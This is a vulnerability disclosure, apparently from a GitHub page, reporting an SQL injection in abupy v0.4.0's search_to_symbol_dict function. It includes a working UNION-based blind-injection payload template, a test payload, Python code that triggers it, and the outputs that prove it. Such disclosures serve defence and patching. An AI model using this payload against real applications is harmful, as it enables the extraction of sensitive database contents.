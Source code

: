 Vulnerability Product: abupy v0.4.0  
Vulnerability version: v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {code you wanna execute} then 'usJASNW' else 'usTROVW' end where ''='"```
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the comments of the function, It is legal and normal for users to call this function)
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is`{'TROVW': 'TROVAGENE INC'}`

proved sql code execution

## [](#header-3)HARM: 

Programmers may mistakenly use the functions in this library as part of the backend of the web application, allowing attackers to call the functions and return sensitive database data.  
The above payload is just an example, attackers can construct payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
